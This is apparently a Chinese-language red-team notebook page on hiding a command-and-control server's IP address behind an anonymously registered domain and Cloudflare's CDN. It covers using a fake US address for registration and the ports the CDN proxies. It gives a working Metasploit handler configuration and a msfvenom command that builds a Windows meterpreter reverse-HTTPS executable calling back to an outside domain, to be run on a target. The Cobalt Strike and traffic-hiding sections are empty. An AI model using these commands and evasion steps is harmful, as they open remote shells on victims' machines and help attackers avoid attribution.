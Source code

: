 ## 域名上线隐藏IP
在使用MSF或CS获得目标机Session或Beacon时, 如果直接使用自己的VPS作为服务器, 容易被溯源主机IP

当访问域名时会经过域名解析, 将域名转换为IP地址访问, 使用CDN进行代理, 转发流量, 实现IP隐藏

[CDN 内容分发网络](1.0%20信息收集.md#CDN)

### 配置域名+CDN
1. 匿名注册域名
- 国外域名无需备案
	- https://www.namesilo.com/
	- https://www.namecheap.com/
- 美国地址生成器 https://www.meiguodizhi.com/
- 优惠码 https://www.uphezi.com/namesilo-coupon/?wpcd_coupon=2828
2. 注册免费CDN
- https://www.cloudflare.com/zh-cn/, 使用购买的域名添加站点, 免费计划
3. 配置域名的解析服务 https://www.namesilo.com/account_domains.php, 修改为CloudFlare后台, 概述中的nameserver
4. 配置CDN的DNS服务器, 使用*CDN代理模式*, 类型**A**, 内容为**VPS的IP地址**
5. 配置SSL/TLS加密方式, 全部关闭

CloudFlare的CDN, http, https代理模式如果用其它端口则监听不到
```
# http端口
80,8080,8880,2052,2082,2086,2095

# https端口
443,2053,2083,2087,2096,8443
```

## Metasploit
### HTTP
1. msfvenom生成木马
2. 设置payload, lhost=CDN域名, lport, reverselistenerbandsddress, MSF开启监听

### HTTPS
1. CloudFlare->SSL/TLS创建证书, 生成pem(源证书) 和key(私钥证书), 上传至VPS, 创建一个包含两个证书的统一证书文件.
```
cat cloudflare.key cloudflare.pem >> /root/cloudflare-key.pem
```
2. 设置监听器, 需要设置`HandlerSSLCert`为 `true`, 启用SSL; 设置`EnableStateEncoding`对第二阶段载荷编码.
```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST www.mingy.xyz
set LPORT 443
set HandlerSSLCert /root/cloudflare-key.pem
set StagerVerifySSLCert true
set EnableStageEncoding true
set SSLVersion TLS1
run
```
访问https://\<CND-domain\>, 看到Itworks信息代表成功
3. 生成payload CDN域名为lhost
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=www.mingy.xyz LPORT=443 -f exe -o r443.exe
```
4. 目标主机执行

---
## Cobalt Strike
### Beacon HTTP


### Beacon DNS


## 隧道转发代理


## 转发重定向


## CS流量隐藏